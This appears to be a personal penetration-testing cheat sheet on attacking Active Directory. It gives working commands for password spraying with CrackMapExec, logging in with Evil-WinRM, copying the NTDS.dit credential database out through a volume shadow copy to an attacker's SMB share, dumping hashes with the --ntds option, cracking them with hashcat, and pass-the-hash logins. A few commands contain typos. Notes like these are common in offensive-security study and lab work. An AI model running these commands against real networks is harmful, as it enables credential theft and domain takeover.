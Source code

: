 # Terms
### NTDS
- NT Directory Services used with AD to find & organiza network resources.
- stored at %systemroot$/ntds
### .dit
- directory information tree
- primary database file associated with AD, storing domain usernames, password hashses and critical schema information

## Using CrackMapExec
- Generate custom usernames
```bash
username-anarchy -i names.txt
```
- Use CrackMapExec 
```bash
crackmapexec smb $IP -u $USERNAME -p /usr/share/wordlists/fasttrack.txt
```

---------------------
# Capture NTDS.dit
----------------------------
## Method 1
- Connect to ad DC with Evil-WinRM
```bash
evil-winrm -i $IP -u $USERNAME -p $PASSWORD
```
- Check local memebership
```bash
net localgroup
```
- To get a copy of NTDS.dit file, we need local admin (Administrators group) or Domain Admin rights (Domain Admins group)
- Check user account Privileges including Domain
```bash
net user $USERNAME
```
- Create a shadow copy of C:\\ using Vssadmin (Volume Shadow Copy)
```bash
vssadmin CREATE SHADOW /For=C:
```
- Copy NTDS.dit from the VSS
```bash
cmd.exe \c copy \\?\GLOBALROOT\Device\HarddiskVolumeShdowCopy2\Windows\NTDS\NTDS.dit C:\NTDS\NTDS.dit
```
- Transfer NTDS.dit to Attack Host
```bash
cmd.exe /c move C:\NTDS\NTDS.dit \\$IP\$share-folder
```

## Method 2
- A faster method using crackmapexec to capture NTDS.dit
```bash
crackmapexec smb $IP -u $USERNAME -p $PASSWORD --ntds
```
- Use hashcat to crack passwords
```bash
sudo hashcat -m 1000 $hash rockyou.txt
```

## Pass-the-Hash 
```bash
evil-winrm -i $IP -U Administrator -H $hash
```
